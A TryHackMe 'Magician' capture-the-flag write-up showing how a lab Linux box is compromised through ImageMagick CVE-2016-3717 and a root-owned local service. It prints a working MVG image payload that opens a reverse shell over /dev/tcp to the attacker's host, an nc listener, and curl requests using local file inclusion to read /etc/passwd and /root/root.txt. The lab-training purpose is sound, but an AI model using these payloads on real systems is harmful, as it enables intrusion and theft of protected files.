# Magician — Writeup

**Difficulty:** Easy     
**Operating System:** Linux  

---

## Setup

**Note from TryHackMe:**

```
Please add the IP address of this machine with the hostname "magician" to your /etc/hosts file on Linux before you start.  
On Windows, the hosts file should be at C:\Windows\System32\drivers\etc\hosts.

Use the hostname instead of the IP address if you want to upload a file. This is required for the room to work correctly ;)

Have fun and use your magic skills!
```





---

## Reconnaissance

```
nmap -p- magician -sC -sV --min-rate 500 -o ports.txt
```



**Open Ports:**

- Port 21: FTP
- Port 8080: Web application
- Port 8081: Web application


---

## Web Application Enumeration





**Application Feature:** PNG file upload capability

During upload testing, I found that the application performed limited file-type filtering. By modifying the upload parameters in Burp Suite, I was able to upload a `.php` file. However, the application did not execute the uploaded PHP file and instead returned a `Download` response.

**Finding:** Limited filtering on uploaded content

---

## FTP Service & CVE Discovery

### FTP Connection

```bash
ftp magician
```



**Message Received:** Information about ImageMagick vulnerabilities

**Vulnerable Service:** ImageMagick (legacy version)

**CVE Identified:** CVE-2016-3717

**REFERER:** https://imagetragick.com/

---

## Exploitation

### ImageMagick Payload Creation

Following the usage of CVE:



Create malicious PNG with embedded shell command:

```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 '|/bin/sh -i > /dev/tcp/{YOUR-IP}/9999 0<&1 2>&1'
pop graphic-context
```

**File Format:** .png extension

**Payload Type:** MVG script

### Reverse Shell Reception

```bash
nc -lvnp 9999
```

Upload malicious PNG to application.




**Result:** Interactive shell received

### Shell Upgrade


```bash
export TERM=xterm-256color
script -qc /bin/bash /dev/null
```




---

## Flag Discovery

### User Flag

Navigate to magician home directory:



**Flag 1 Obtained**

---

### Interesting File

On /home/magician we found too a suspicious and interesting file: `the_magic_continues`



**Hint:** "The magician is known to keep a locally listening cat up his sleeve, it is said to be an oracle who will tell you secrets if you are good enough to understand its meows."


**Hypothesis:** References mysterious local service

---

## Local Service Enumeration






**Finding:** Service running on localhost port 6666

### Service Ownership




**The service was running with root privileges.**

At this point, I had two options: use Chisel to forward the internal service to my machine, or interact with it directly through `curl` from the compromised host.


---

## Local File Inclusion Attack

### Service Testing

```bash
curl -i http://127.0.0.1:6666/
```

**Finding:** Web server responding on local port

### HTML Analysis




**REFERER:** https://html-onlineviewer.com/

The source code could be inspected using the online viewer, making it easier to analyze the application logic.

**Source code inspection reveals input parameter:**  `filename`

### LFI Exploitation - /etc/passwd

```bash
curl -i -X POST http://127.0.0.1:6666/ -d 'filename=/etc/passwd'
```



**Result:** System file contents retrieved

### LFI Exploitation - Root Flag

**Because the local web service was running with root privileges, the LFI could be abused to read files that would normally be inaccessible to the `magician` user, including `/root/root.txt`.**

```bash
curl -i -X POST http://127.0.0.1:6666/ -d 'filename=/root/root.txt'
```



**Result:** Hexadecimal encoded flag returned

### Hexadecimal Decoding

```bash
echo '{REDACTED}' | xxd -r -p
```



**Root Flag Obtained**

---
Made by NonamesecX | For educational purposes only